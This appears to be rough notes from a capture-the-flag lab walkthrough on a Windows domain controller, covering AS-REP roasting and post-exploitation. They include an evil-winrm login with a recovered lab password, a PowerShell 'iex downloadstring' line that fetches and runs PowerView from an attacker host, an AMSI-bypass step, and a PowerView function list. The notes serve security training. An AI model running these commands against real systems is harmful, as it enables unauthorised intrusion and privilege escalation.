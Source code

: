         The script creates a kerberos request (AS-REQ) for the server for a username, and ask for a weakly encrypted response in the form of eTYPE-ARCFOUR-HMAC-MD5(AS-REP). This is important as kerberos will usually send its response in a much stronger encrypted format.

        If preauth is required, when performing GetNPUSers, Kerberos will require a password. This password requires the user to encrypt the current time with the users password (encryptiong the current time prevents replay attacks)

evilwinrm time
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice

USER FLAG HERE from desktop

winpeas enumeration
sudo python3 -m http.server 80

powershell "Invoke-WebRequest -UseBasicParsing 10.10.14.8/winPEAS.bat -OutFile winPEAS.bat"

nothing exiting

Bypass-4MSI
-bypass firewalls

changed to a directory with powerview.ps1, hosted another server
iex(new-object net.webclient).downloadstring('http://10.10.14.8:80/powerview.ps1')

menu before
[+] Dll-Loader 
[+] Donut-Loader 
[+] Invoke-Binary
[+] Bypass-4MSI
[+] services
[+] upload
[+] download
[+] menu
[+] exit



menu after
[+] Add-DomainGroupMember 
[+] Add-DomainObjectAcl 
[+] Add-NetUser 
[+] Add-RemoteConnection 
[+] Add-Win32Type 
[+] Convert-ADName 
[+] Convert-DNSRecord 
[+] ConvertFrom-LDAPLogonHours 
[+] ConvertFrom-SID 
[+] ConvertFrom-UACValue 
[+] Convert-LDAPProperty 
[+] ConvertTo-SID 
[+] Dll-Loader 
[+] Donut-Loader 
[+] Export-PowerViewCSV 
[+] field 
[+] Find-DomainLocalGroupMember 
[+] Find-DomainObjectPropertyOutlier 
[+] Find-DomainProcess 
[+] Find-DomainShare 
[+] Find-DomainUserEvent 
[+] Find-DomainUserLocation 
[+] Find-InterestingDomainAcl 
[+] Find-InterestingDomainShareFile 
[+] Find-InterestingFile 
[+] Find-LocalAdminAccess 
[+] func 
[+] Get-Domain 
[+] Get-DomainComputer 